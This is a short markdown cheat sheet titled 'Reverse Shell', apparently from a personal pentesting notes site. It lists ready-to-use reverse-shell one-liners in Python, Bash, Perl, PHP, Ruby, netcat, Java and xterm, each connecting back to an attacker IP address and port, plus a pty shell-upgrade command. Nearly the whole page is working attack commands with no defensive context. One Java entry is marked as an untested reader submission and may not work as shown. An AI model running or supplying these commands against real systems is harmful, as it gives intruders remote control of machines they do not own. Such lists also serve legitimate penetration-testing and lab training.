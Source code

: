 ```yaml
---
title: "Reverse Shell"
date: 2020-07-22T22:51:31-03:00
draft: false
---
```


## Python 
=====================

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


## Bash 
=====================
```
bash -i >& /dev/tcp/192.168.19.68/4455 0>&1
```

## PERL 
=====================
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## PHP 
=====================
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby 
=====================
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat 
=====================
```
nc -e /bin/sh 10.0.0.1 1234


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Java 
=====================
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()[Untested submission from anonymous reader]
```

## xterm 
=====================
```
xterm -display 10.0.0.1:1


Xnest :1


xhost +targetip
```
